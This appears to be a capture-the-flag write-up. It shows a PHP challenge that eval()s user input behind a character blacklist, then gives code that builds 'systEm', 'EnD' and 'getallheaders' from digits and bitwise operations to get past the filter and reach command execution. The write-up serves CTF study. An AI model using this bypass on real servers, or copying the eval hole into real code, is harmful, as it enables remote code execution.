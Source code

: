 ```php
<?php 
error_reporting(0); 
if(!isset($_GET['num'])){ 
    show_source(__FILE__); 
}else{ 
    $str = $_GET['num']; 
    $blacklist = ['[a-z]', '[\x7f-\xff]', '\s',"'", '"', '`', '\[', '\]','\$', '_', '\\\\','\^', ',']; 
    foreach ($blacklist as $blackitem) { 
        if (preg_match('/' . $blackitem . '/im', $str)) { 
            die("what are you want to do?"); 
        } 
    } 
    @eval('echo '.$str.';'); 
} 
?> 
```

使用如下方法绕过

```php
<?php 
$a ='';
$a .= ((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(3)){1}));
$a .= ((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(9)){1}));
$a .= ((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(3)){1}));
$a .= ((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(4)){1}));
$a .= (((10000000000000000000).(1)){3});
$a .= ((((10000000000000000000).(1)){3})|(((-1).(1)){0}));
echo $a; //systEm
?>

<?php 
$a ='';
$a .= (((10000000000000000000).(1)){3}); // E
$a .= (((((10000000000000000000).(1)){3})|(((1.1).(1)){1}))&((~(((1).(7)){1})|(((1).(0)){1}))|(((1).(6)){1}))); //n
$a .= ((((10000000000000000000).(1)){3})&((~(((1).(7)){1})|(((1).(0)){1}))|(((1).(6)){1}))); //D
echo $a; //EnD
?>

<?php // getallheaders
$a ='';
$a .= ((((10000000000000000000).(1)){3})|(((1.1).(1)){1})&((~(((1).(8)){1})|(((1).(7)){1})))); // g
$a .= (((10000000000000000000).(1)){3}); // E
$a .= ((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(4)){1})); //T
$a .= ((((10000000000000000000).(1)){3})&((~(((1).(7)){1})|(((1).(0)){1}))|(((1).(1)){1}))); //a
$a .= (((((10000000000000000000).(1)){3})|(((1.1).(1)){1}))&((~(((1).(7)){1})|(((1).(0)){1}))|(((1).(4)){1}))); // l
$a .= (((((10000000000000000000).(1)){3})|(((1.1).(1)){1}))&((~(((1).(7)){1})|(((1).(0)){1}))|(((1).(4)){1}))); // l
$a .= (((((10000000000000000000).(1)){3})|(((1.1).(1)){1}))&((~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1}))); // h
$a .= (((10000000000000000000).(1)){3}); // E
$a .= ((((10000000000000000000).(1)){3})&((~(((1).(7)){1})|(((1).(0)){1}))|(((1).(1)){1}))); //a
$a .= ((((10000000000000000000).(1)){3})&((~(((1).(7)){1})|(((1).(0)){1}))|(((1).(4)){1}))); //D
$a .= (((10000000000000000000).(1)){3}); // E
$a .= ((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(2)){1})); // r
$a .= ((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(3)){1})); // s
echo $a;
?>
```
